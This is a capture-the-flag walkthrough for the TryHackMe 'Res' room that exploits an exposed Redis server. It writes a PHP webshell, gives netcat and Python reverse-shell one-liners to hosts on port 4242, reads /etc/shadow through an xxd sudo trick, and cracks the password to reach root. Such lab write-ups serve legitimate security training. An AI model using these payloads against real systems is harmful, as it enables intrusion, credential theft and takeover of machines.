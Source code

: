 # [Res](https://tryhackme.com/room/res)


### Task 5 Compromise the machine and locate user.txt
0. [HackTricks Webshell](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#webshell)
1. Apache writeable path `/var/www/html`
2. Connecting via `redis-cli` or `netcat`
```
redis-cli -h $ip
nc -vn $ip $port
```
3. Then one line php webshell `"<?php system($_GET['cmd']); ?>"` or maybe try this `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4242 >/tmp/f")?>`

### Task 6 What is the local user account password?
1. First get a reverse shell from webshell. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
2. Run `Linpeas.sh` found the intersting file `xxd`. https://gtfobins.github.io/gtfobins/xxd/
3. 
```
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
4. Crack the password with john. `su user` then `sudo su` get the root
